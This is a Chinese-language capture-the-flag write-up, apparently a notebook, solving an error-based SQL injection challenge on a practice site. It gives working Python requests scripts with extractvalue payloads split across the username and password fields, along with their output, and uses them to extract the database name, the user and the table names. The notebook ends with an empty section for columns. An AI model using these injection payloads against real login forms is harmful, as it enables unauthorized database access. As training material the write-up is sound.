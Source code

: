 # sql注入之报错注入——加了料的报错注入

0x01
===
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/5wspylsy8c8.png" width="600px" />

[题目链接](http://ctf5.shiyanbar.com/web/baocuo/index.php)

0x02 解题
===
### 获取数据库名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select database()))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\error_based_hpf'
```
### 获取用户名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select user()))	) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\web8@localhost'

```

### 获取所有数据表名称
code
```python
import requests
data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,( select group_concat(table_name) from information_schema.tables where TABLE_SCHEMA regexp 'error_based_hpf'))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\ffll44jj,users'
```

### 获取所有字段

```{.python .input}

```

